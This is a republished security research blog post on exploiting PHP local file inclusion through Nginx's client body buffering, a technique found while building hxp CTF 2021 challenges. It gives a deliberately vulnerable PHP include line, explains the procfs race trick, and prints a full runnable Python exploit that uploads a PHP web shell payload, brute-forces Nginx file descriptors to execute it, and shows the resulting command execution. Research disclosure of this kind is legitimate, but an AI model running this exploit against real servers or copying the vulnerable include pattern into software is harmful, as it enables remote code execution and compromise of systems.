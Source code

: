 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bierbaumer.net](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

> New method to exploit PHP local file inclusion (LFI) vulnerabilities with Nginx assistance.

PHP LFI with Nginx Assistance
-----------------------------

This post presents a new method to exploit local file inclusion (LFI) vulnerabilities in utmost generality, assuming _only_ that PHP is running in combination with Nginx under a common standard configuration. The technique was discovered while developing the [includer's revenge](https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/) / [counter](https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/) challenges from the [hxp CTF 2021](https://2021.ctf.link/).

Thank you and congratulations to pasten, Super Guesser and p4 for also discovering this issue and additionally demonstrating that it's remotely exploitable in both challenges. Also, thanks for the great discussions on IRC and especially the force (love - [visible here](https://twitter.com/hxpctf/status/1472909170349428737)) pasten applied to extract the flags from our servers.

Published: 26 Dec 2021

* * *

PHP local file inclusions (LFI) techniques have a long history in security research and are popular within the CTF community. Many tricks have been published over the years:

*   `PHP_SESSION_UPLOAD_PROGRESS` trick - [https://blog.orange.tw/2018/10/](https://blog.orange.tw/2018/10/)
*   Use wrappers like `compress.zlib://` to upload a temporary file - [https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer)
*   Temp files / `FindFirstFile` tricks [https://gynvael.coldwind.pl/?id=376](https://gynvael.coldwind.pl/?id=376)
*   LFI with `phpinfo()` assistance - [https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf](https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf)
*   Obsolete `/proc/self/environ` tricks - [https://www.exploit-db.com/papers/12886](https://www.exploit-db.com/papers/12886)
*   Obsolete `/var/log/apache2/*log` (has this ever worked)?
*   etc.

Most of the current LFI exploitation techniques rely on PHP being able to create some form of temporary or session files. Let's consider the following example where the previously available tricks don't work:  
[Download runnable example & exploit](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz).

PHP code:

```
<?php include_once($_GET['file']);


```

FPM / PHP config:

```
...
php_admin_value[session.upload_progress.enabled] = 0
php_admin_value[file_uploads] = 0
...


```

Setup / hardening:

```
...
chown -R 0:0 /tmp /var/tmp /var/lib/php/sessions
chmod -R 000 /tmp /var/tmp /var/lib/php/sessions
...


```

Luckily PHP is currently often deployed via PHP-FPM and Nginx. Nginx offers an easily-overlooked [client body buffering](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size) feature which will write temporary files if the client body (not limited to post) is bigger than a certain threshold.

This feature allows LFIs to be exploited without any other way of creating files, if Nginx runs as the same user as PHP (very commonly done as www-data).

Relevant Nginx code:

```
ngx_fd_t
ngx_open_tempfile(u_char *name, ngx_uint_t persistent, ngx_uint_t access)
{
    ngx_fd_t  fd;

    fd = open((const char *) name, O_CREAT|O_EXCL|O_RDWR,
              access ? access : 0600);

    if (fd != -1 && !persistent) {
        (void) unlink((const char *) name);
    }

    return fd;
}


```

It's visible that tempfile is unlinked immediately after being opened by Nginx. Luckily procfs can be used to still obtain a reference to the deleted file via a race:

```
...
/proc/34/fd:
total 0
lrwx------ 1 www-data www-data 64 Dec 25 23:56 0 -> /dev/pts/0
lrwx------ 1 www-data www-data 64 Dec 25 23:56 1 -> /dev/pts/0
lrwx------ 1 www-data www-data 64 Dec 25 23:49 10 -> anon_inode:[eventfd]
lrwx------ 1 www-data www-data 64 Dec 25 23:49 11 -> socket:[27587]
lrwx------ 1 www-data www-data 64 Dec 25 23:49 12 -> socket:[27589]
lrwx------ 1 www-data www-data 64 Dec 25 23:56 13 -> socket:[44926]
lrwx------ 1 www-data www-data 64 Dec 25 23:57 14 -> socket:[44927]
lrwx------ 1 www-data www-data 64 Dec 25 23:58 15 -> /var/lib/nginx/body/0000001368 (deleted)
...


```

Note: One cannot directly include `/proc/34/fd/15` in this example as PHP's `include` function would resolve the path to `/var/lib/nginx/body/0000001368 (deleted)` which doesn't exist in in the filesystem. This minor restriction can luckily be bypassed by some indirection like: `/proc/self/fd/34/../../../34/fd/15` which will finally execute the content of the deleted `/var/lib/nginx/body/0000001368` file.

Full Exploit:
-------------

```
#!/usr/bin/env python3
import sys, threading, requests

# exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance
# see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details

URL = f'http://{sys.argv[1]}:{sys.argv[2]}/'

# find nginx worker processes 
r  = requests.get(URL, params={
    'file': '/proc/cpuinfo'
})
cpus = r.text.count('processor')

r  = requests.get(URL, params={
    'file': '/proc/sys/kernel/pid_max'
})
pid_max = int(r.text)
print(f'[*] cpus: {cpus}; pid_max: {pid_max}')

nginx_workers = []
for pid in range(pid_max):
    r  = requests.get(URL, params={
        'file': f'/proc/{pid}/cmdline'
    })

    if b'nginx: worker process' in r.content:
        print(f'[*] nginx worker found: {pid}')

        nginx_workers.append(pid)
        if len(nginx_workers) >= cpus:
            break

done = False

# upload a big client body to force nginx to create a /var/lib/nginx/body/$X
def uploader():
    print('[+] starting uploader')
    while not done:
        requests.get(URL, data='<?php system($_GET["c"]); /*' + 16*1024*'A')

for _ in range(16):
    t = threading.Thread(target=uploader)
    t.start()

# brute force nginx's fds to include body files via procfs
# use ../../ to bypass include's readlink / stat problems with resolving fds to `/var/lib/nginx/body/0000001150 (deleted)`
def bruter(pid):
    global done

    while not done:
        print(f'[+] brute loop restarted: {pid}')
        for fd in range(4, 32):
            f = f'/proc/self/fd/{pid}/../../../{pid}/fd/{fd}'
            r  = requests.get(URL, params={
                'file': f,
                'c': f'id'
            })
            if r.text:
                print(f'[!] {f}: {r.text}')
                done = True
                exit()

for pid in nginx_workers:
    a = threading.Thread(target=bruter, args=(pid, ))
    a.start()


```

Output:

```
$ ./pwn.py 127.0.0.1 1337
[*] cpus: 2; pid_max: 32768
[*] nginx worker found: 33
[*] nginx worker found: 34
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] starting uploader
[+] brute loop restarted: 33
[+] brute loop restarted: 34
[!] /proc/self/fd/34/../../../34/fd/9: uid=33(www-data) gid=33(www-data) groups=33(www-data)


```

### Site Notes:

*   [includer's revenge](https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/) also contains a LFI vuln. via [`fastcgi_buffering`](http://nginx.org/en/docs/http/ngx_http_fastcgi_module.html#fastcgi_buffering) which is easier to exploit as the tempfile can be kept open via calling `readfile` on a http:// resource.
*   [counter](https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/) additionally adds `system()` so that `/proc/$PID/cmdline` can be used for local file inclusion via base64 wrappers. :)